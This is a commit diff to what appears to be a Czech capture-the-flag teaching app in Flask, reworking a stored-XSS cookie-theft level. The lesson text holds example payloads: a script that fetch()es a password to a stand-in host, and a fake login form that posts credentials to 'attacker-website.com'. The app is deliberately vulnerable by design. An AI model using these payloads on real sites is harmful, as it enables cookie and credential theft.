

Before and after one commit to BrewsLee21/zlabCTF, a Flask app: page /level/3 in a window 1280 px wide. Shown: the part 396-2013 px from the top of the page at 76% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
Improved Level3

```diff
--- a/app/config.py
+++ b/app/config.py
@@ -11,6 +11,10 @@ class Config:
     USER_DATA = os.path.join(BASE_DIR, "res/level1/user_data.txt") # Used in Level 1 (SQL Injection)
     FILES_DIR = "/share/files" # Used in Level 2 (Command Injection)
     FIRST_COMMENT = "<span style='color: red;'>Do cookies se prý ukládají citlivá data.</span><br>Dám flag <strong>komukoliv</strong>, kdo pošle GET request se všemi cookies na url <span class='nosplit'>'/level/3/cookiejar'</span><br>&bull; Zloděj sušenek" # Used in Level 3 (Stored XSS)
+
+    # Used in Level 3
+    SECRET_COOKIE_KEY = "secret_cookie"
+    SECRET_COOKIE_LEN = 32
 
     LEVELS = [
         { # Level 1
--- a/app/models.py
+++ b/app/models.py
@@ -1,4 +1,5 @@
 from app import db
+from app.config import Config as c
 
 class FlagsModel(db.Model):
     flag_id = db.Column("flag_id", db.Integer, primary_key=True, autoincrement=True)
@@ -21,6 +22,10 @@ class Level3Model(db.Model):
     def __init__(self, comment_content):
         self.comment_content = comment_content
 
+class CookieModel(db.Model):
+    cookie_id = db.Column("pin_id", db.Integer, primary_key=True, autoincrement=True)
+    cookie_value = db.Column("cookie_value", db.String(c.SECRET_COOKIE_LEN))
+
 class Level4Model(db.Model):
     pin_id = db.Column("pin_id", db.Integer, primary_key=True, autoincrement=True)
     pin = db.Column("pin", db.String(16))
--- a/app/routes.py
+++ b/app/routes.py
@@ -118,7 +118,11 @@ def level3():
             continue
         resp.set_cookie(cookie, "", expires=0)
     print("Setting secret cookie!")
-    resp.set_cookie("secret_cookie", "sweet_sugar")
+    try:
+        db_cookie_value = CookieModel.query.with_entities(CookieModel.cookie_value).first()[0]
+    except Exception as e:
+        return str(e)
+    resp.set_cookie("secret_cookie", str(db_cookie_value))
 
     if level_form.validate_on_submit():
         comment_content = Level3Model(level_form.data["comment_section"])
@@ -142,27 +146,43 @@ def level3():
 @app.route("/level/3/cookiejar", methods=["get"])
 def cookiejar():
     global cookie_received
-    print("Somebody was here!")
+    correct_secret_cookie_value = CookieModel.query.with_entities(CookieModel.cookie_value).first()[0]
+
 
     if cookie_received:
-        print("Setting to false ")
+        print("Setting to False ")
         cookie_received = False
         return f"To si pochutnám!\nTady máš flag: {c.LEVELS[2]['level_flag']}"
 
-    for cookies in request.args.values():
-        print(f"cookies: {cookies}")
+    for cookies in request.args.items():
+
         if type(cookies) != list:
             cookies = [cookies]
-        for cookie in cookies:
-            key, cookie_value = cookie.split('=')
-            if key != "secret_cookie":
-                continue
-            if cookie_value and (cookie_value == "sweet_sugar"):
-                print("Setting to true!")
+        for cookie_key, cookie_value in cookies:
+            if cookie_key == c.SECRET_COOKIE_KEY and cookie_value == correct_secret_cookie_value:
+                print("Setting to True")
                 cookie_received = True
                 return "OK"
-            else:
-                return "Špatná sušenka! Tu jíst nebudu!"
+            # if the cookie_value is a dictionary
+            if '=' in cookie_value:
+                print("Checking dictionary")
+                # if there are several key/value pairs in the dict
+                if ';' in cookie_value:
+                    dict_values = list(map(lambda x: x.strip(), cookie_value.split(';')))
+                    for key_val in dict_values:
+                        key, val = key_val.split('=')
+                        if key == c.SECRET_COOKIE_KEY and val == correct_secret_cookie_value:
+                            print("Setting to True")
+                            cookie_received = True
+                            return "OK"
+                # else if there is just one key/value pair in the dict
+                else:
+                    key, val = cookie_value.split('=')
+                    if key == c.SECRET_COOKIE_KEY and val == correct_secret_cookie_value:
+                        print("Setting to True")
+                        cookie_received = True
+                        return "OK"
+
     return "Co tu chceš? Tady není nic k vidění!"
 
 @app.route("/level/4", methods=["get", "post"])
--- a/app/static/styles/levels.css
+++ b/app/static/styles/levels.css
@@ -18,7 +18,8 @@
 }
 
 .nosplit {
-	white-space: nowrap;
+	max-width: 95%;
+	overflow-x: scroll;
 }
 
 .red {
--- a/app/templates/level_descriptions/level3.html
+++ b/app/templates/level_descriptions/level3.html
@@ -21,14 +21,27 @@
 	Toto v případě vstupu od uživatele nechceme.<br>
 	<br>
 	Pomocí JavaScriptu lze například odesílat data na jiné adresy pomocí funkcí <a href="https://javascript.info/xmlhttprequest">XMLHttpRequest</a> nebo <a href="https://javascript.info/fetch">fetch</a><br>
-	<span class="code multi-line-code nosplit">
-		&lt;script&gt;<br>
-		&emsp;&emsp;&emsp;&emsp;fetch("http://send/secrets/here?password=ABCabc123");<br>
-		&lt;/script&gt;<br>
-	</span>
+	<pre class="code multi-line-code nosplit">
+&lt;script&gt;
+    fetch("http://send/secrets/here?password=ABCabc123");
+&lt;/script&gt;
+</pre>
 	<br>
 	Krom toho se dá také modifikovat samotné HTML:<br>
 	<pre class="code multi-line-code nosplit">
-
-	</pre>
+&lt;script&gt;document.body.innerHTML='&lt;html kod&gt;'&lt;/script&gt;
+</pre><br>
+	Modifikovat by se dal například takto:<br>
+	<pre class="code multi-line-code nosplit">
+&lt;form action="https://attacker-website.com" method="POST"&gt;
+    Username:
+    &lt;input type="text" name="username"&gt;
+    Password:
+    &lt;input type="password" name="passwd"&gt;
+    &lt;input type="submit" value="Submit"&gt;
+&lt;/form&gt;
+</pre><br>
+	Tímto by se tělo stránky (&lt;body&gt;) přepsalo na nově zadaný HTML kód.<br>
+	<br>
+	Příklad napsán výš je například formulář, který se ptá uživatele na uživatelské jméno a heslo, a výsledky potom odesílá na útočníkovu URL adresu.<br>
 </div>
--- a/app/utils.py
+++ b/app/utils.py
@@ -1,8 +1,9 @@
 import re
 import shlex
 import os
-import random
+from random import randrange, choice
 from time import sleep
+from string import ascii_letters
 
 from app import app, db
 from app.models import *
@@ -150,6 +151,10 @@ def clear_comments():
     db.session.add(Level3Model(comment_content=c.FIRST_COMMENT))
     db.session.commit()
 
+
+chars = ascii_letters + "0123456789"
+get_new_cookie = lambda: ''.join([choice(chars) for _ in range(c.SECRET_COOKIE_LEN)])
+
 # ===================================================
 # ================= Level 4 =================
 
@@ -161,7 +166,7 @@ def generate_new_pin() -> str:
     pin_length = 5
     new_pin = ""
     for _ in range(pin_length):
-        new_pin += str(random.randrange(0, 9))
+        new_pin += str(randrange(0, 9))
     return str(new_pin.zfill(pin_length))
 
 def change_pin(level: int):
```
Also changed, not shown: init.py (+21 -1 lines).
